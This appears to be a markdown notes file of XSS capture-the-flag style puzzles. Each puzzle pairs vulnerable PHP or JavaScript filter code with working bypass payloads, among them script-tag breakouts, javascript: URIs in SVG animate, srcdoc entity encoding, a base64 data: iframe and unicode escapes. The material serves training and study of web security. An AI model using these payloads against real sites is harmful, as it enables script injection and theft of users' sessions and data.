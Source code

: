 # Some of Xss context Location 

```
<html>
	
	<head>
		<script>
			const test = "CONTEXT-1";
		</script>
	</head>

	<body>
		<svg height="400" width="400">
			<text fill="#e2e2e2">CONTEXT-2</text>
		</svg>
	
		<form action="" >
			<input type="text" value="CONTEXT-3" />
		</form>

	</body>

</html>

```

XSS should be encoded according to context they are placed in, so CONTEXT-1 payload should be properly htmlencoded whereas not same for context-2.


* `/` is space in HTML. `<sv/g> = <sv g>`

# Attacks

1.

Question :
(Context-1)(only escaping ' and ")

```
<?php
// Can you spot the xss ?
 
$username = isset($_GET["username"]) ? $_GET["username"] : "guest";
$username = addslashes($username);
?>
<body>
<script>
 const username = '<?=$username?>';
 document.body.innerText = `Hello ${username} !`;
</script>

```

Sol:

```
<!-- The HTML parser is not JS aware, that means it will close the Js block at the first occurence of /script> even if its inside string -->

<script>
	const test = "</script>"; // script is closed here
</script>

<!-- to exploit above code u just need to close the script tag by sending username as </script> and use any basic xss payload. so if username = "</script><svg onload=alert`1`>"; -->

<script>
	const username = "</script><svg onload=alert`1`>";
	document.body.innerText = `Hello ${username} !`;
</script>

```

2.

Question :
(context-1)(escaping many invalid chars `()[]<>\'"` )

```
<?
$input = $_GET['input'];
$blacklist = str_split('()[]<>\'"`');

foreach($blacklist as $c){
	if(strpos($input, $c) !== false){
		die("nop");
	}
}

?>

<script>
const age = <?= $input ?>;
</script>

```

SOl:
```
<!-- So input cannot have set of things and if it doesnt, its directly inserted to script. So a simple input=23;alert(1); would have worked if no blacklist .-->
Bypasses can be

* age=23;{onerror=alert}throw 23//
* age=19;location=/javascript:alert%25281%2529/.source;

```

3.

Question:
(context-1)(XSS-auditor of chrome helps)
```
<script>var x=23;</script>

<script>
	if(!x || typeof x==="undefined"){
		alert("But how")?
	}
</script>
```

SOL:
```
<!-- As we know chromes xss auditor can simply `ignore/stops` execution of script if its same in URL we can use it -->

site.com/?x=<script>var x=23;</script>
```

4.

Question:
(context-2)(`<x onxxx=>` is filtered)

```
userInput = req.params("query");

if ( userInput.match(/<.*on.*=.*>/) || userInput.match("<script>") ){
	return "Error";
}

docuement.innerHTML = userInput;
``` 

SOl:
```
<!-- So this is one hard filter. <img> tag works fine, even <img onerror> is fine but it just dont allow you to have it like '<img onerror=' .The filter is very hard we can use some newlines and \ to bypass . -->


userInput as following are giving xss:
* <form action=javascript:alert(1)><input type=submit>  # donot use onxxx at all, use src=javascript:alert
* <svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=&> # same using src=js trick, this gives alert on click 


* <iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;>  # this is one tricky bypass

```

5.

Question:
(context-3)(scipt,on[a-z]+,style : are not allowed in the userInput)

```
userInput = req.params("query");

userInput = userInput.replace(	/script/gi   	,	"xscript");
userInput = userInput.replace(	/on[a-z]+=/ig	,	"onxxx=");
userInput = userInput.replace(	/style=/gi   	,	"stxxx=");

document.innerHTML = "<svg " + userInput + ">"

```

Solution:

```
"><a href=javas&#99;ript:alert(1)>click

"><iframe src="data:text/html;base64,PHNjcmlwdD5wYXJlbnQuYWxlcnQoZG9jdW1lbnQuZG9tYWluKTs8L3NjcmlwdD4="></iframe>  # works on firefox(parent.alert); dont know why cross origin is allowed in firefox


```

6.

Question :
(context-1)(escaping htmlentites which encode \<>'" or any character very properly )

```
<script>docuement.write("<?php echo htmlentities($_GET['x']); ?>"); </script>
```

Solution:
```
<!-- Unicode to the rescue  -->

\x3cimg src\x3dx \x3e
```


7.

Question:( NO SOLUTION YET)
(context-3)(' " < > whiteSpace newLine  `character from 0x00 to 0x20` all are blocked )


```
userInput = req.params("query");

userInput = userInput.replace(	/[\x00-\x20\<\>\"\']/gi   	,	"");

document.innerHTML = "<input value = '" + userInput + "'>"

```




